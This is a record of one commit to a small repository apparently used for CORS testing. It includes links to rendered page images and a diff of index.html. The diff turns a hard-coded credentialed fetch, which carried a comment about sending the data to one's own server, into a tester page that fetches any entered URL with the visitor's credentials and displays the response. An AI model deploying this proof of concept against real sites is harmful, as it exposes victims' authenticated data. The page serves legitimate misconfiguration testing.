

Before and after one commit to stish834/cors-poc, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,20 +1,30 @@
 <!DOCTYPE html>
 <html>
 <head>
-  <title>CORS PoC</title>
+  <title>CORS PoC Tester</title>
 </head>
 <body>
-  <h1>CORS Misconfiguration PoC</h1>
+  <h2>Dynamic CORS Misconfiguration Tester</h2>
+  <input type="text" id="targetUrl" placeholder="Enter target URL">
+  <button onclick="sendRequest()">Send Request</button>
+  <pre id="output">Waiting for input...</pre>
+
   <script>
-    fetch('https://vulnerable-domain.com/endpoint', {
-      credentials: 'include'
-    })
-    .then(response => response.text())
-    .then(data => {
-      console.log('Response:', data);
-      // Optionally, send data to your server
-    })
-    .catch(error => console.error('Error:', error));
+    function sendRequest() {
+      const url = document.getElementById('targetUrl').value;
+      const output = document.getElementById('output');
+
+      output.textContent = 'Sending request to: ' + url;
+
+      fetch(url, { credentials: 'include' })
+        .then(res => res.text())
+        .then(data => {
+          output.textContent = '✅ Response:\n\n' + data;
+        })
+        .catch(err => {
+          output.textContent = '❌ Error:\n\n' + err;
+        });
+    }
   </script>
 </body>
 </html>
```
